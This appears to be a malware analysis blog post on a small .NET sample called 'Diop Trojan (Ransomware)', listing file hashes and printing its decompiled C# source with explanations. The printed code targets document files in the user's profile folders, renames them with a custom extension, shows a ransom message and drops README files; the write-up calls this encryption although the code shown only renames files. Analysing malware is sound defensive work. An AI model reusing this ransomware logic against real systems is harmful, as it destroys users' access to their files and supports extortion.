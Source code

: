 # Diop Trojan (Ransomware)

* [Version at ANY.RUN](https://app.any.run/tasks/bdcfa230-f293-4b69-99f0-115d0d67a82b/)
* [VT Link](https://www.virustotal.com/gui/file/424f2f18cf3e601760f3ae6e2979503a8d3993024e342b014053835c6590247d)
* Source code : [source](/_posts/Malware%20Analyze/diop-trojan/ransom1/Ransomware/CustomRansomware.cs)

## File Information

- MD5: 06e63f2f7f64cbc08ac883f4f9122aa7
- SHA-1: 5dc8db5189d1b33b1e28dc642c238f45b6deec1a
- SHA-256: 424f2f18cf3e601760f3ae6e2979503a8d3993024e342b014053835c6590247d
- File type: Win32 EXE
- Magic label: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
- File size: 7.2 kB (7168 bytes)

## File Encryption Program and Custom README File Creation

```
private static void Main(string[] args)
{
    string str = "C:\\Users\\";
    string userName = Environment.UserName;
    string[] array = new string[]
    {
        str + userName + "\\Desktop",
        str + userName + "\\Links",
        str + userName + "\\Contacts",
        str + userName + "\\Desktop",
        str + userName + "\\Documents",
        str + userName + "\\Downloads",
        str + userName + "\\Pictures",
        str + userName + "\\Music",
        str + userName + "\\OneDrive",
        str + userName + "\\Saved Games",
        str + userName + "\\Favorites",
        str + userName + "\\Searches",
        str + userName + "\\Videos"
    };
    string[] fileExtensions = new string[]
    {
        ".txt",
        ".docx",
        ".pdf"
    };
    foreach (string directory in array)
    {
        CustomRansomware.EncryptFilesInDirectory(directory, fileExtensions);
        CustomRansomware.CreateReadmeFiles(directory);
    }
    Console.WriteLine("Files encrypted successfully!");
}

```

This code iterates through various directories within the user's profile, including Desktop, Links, Contacts, Documents, Downloads, Pictures, Music, OneDrive, Saved Games, Favorites, Searches, and Videos. It encrypts files with extensions such as .txt, .docx, and .pdf using a custom ransomware approach. Additionally, it creates custom README files in each directory. Upon completion, the program displays a message confirming successful encryption.

## File Encryption in Directory

```
private static void EncryptFilesInDirectory(string directory, string[] fileExtensions)
{
    string[] files = Directory.GetFiles(directory, "*.*", SearchOption.AllDirectories);
    string[] array = files;
    for (int i = 0; i < array.Length; i++)
    {
        string file = array[i];
        bool flag = Array.Exists<string>(fileExtensions, (string ext) => ext.Equals(Path.GetExtension(file), StringComparison.InvariantCultureIgnoreCase));
        if (flag)
        {
            CustomRansomware.EncryptFile(file);
        }
    }
}

```

The code defines a method named `EncryptFilesInDirectory`, which takes a directory and an array of file extensions as parameters. Utilizing the `Directory` class, it retrieves a list of files within the specified directory, including all subdirectories. For each file, it checks if its extension matches any of the extensions specified in the array. If so, it invokes the `EncryptFile` method from the `CustomRansomware` class to encrypt the file.

## File Encryption Process

```
private static void EncryptFile(string filePath)
{
    using (RSACryptoServiceProvider rsacryptoServiceProvider = new RSACryptoServiceProvider(3072))
    {
        string path = Path.ChangeExtension(Path.GetRandomFileName(), "e4aibjtrguqlyaow");
        File.Move(filePath, Path.Combine(Path.GetDirectoryName(filePath), path));
        byte[] inArray = rsacryptoServiceProvider.ExportCspBlob(false);
        string str = Convert.ToBase64String(inArray);
        Console.WriteLine("File encrypted: " + filePath);
        Console.WriteLine("Ransomware note: Your files have been encrypted. Contact us to get the decryption key.");
        Console.WriteLine("Public key: " + str);
    }
}
```

This method, `EncryptFile`, facilitates the encryption process for a specified file. It utilizes the `RSACryptoServiceProvider` class to generate a public/private key pair with a key size of 3072 bits. The file is then moved to a new location with a random filename and a custom extension. It prints a message indicating that the file has been encrypted along with a ransomware note prompting the user to contact for decryption key retrieval. Additionally, it displays the public key generated for encryption purposes.

## README File Creation

```
private static void CreateReadmeFiles(string directory)
{
    for (int i = 1; i <= 10; i++)
    {
        string text = Path.Combine(directory, string.Format("README{0}.txt", i));
        File.WriteAllText(text, "КУКУ");
        Console.WriteLine("Created README file: " + text);
    }
}
```

The `CreateReadmeFiles` method generates README files within a specified directory. It iterates from 1 to 10, creating a new README file with the format "README{number}.txt". Each file contains the text "КУКУ". Upon successful creation, it prints a message indicating the creation of each README file along with its path.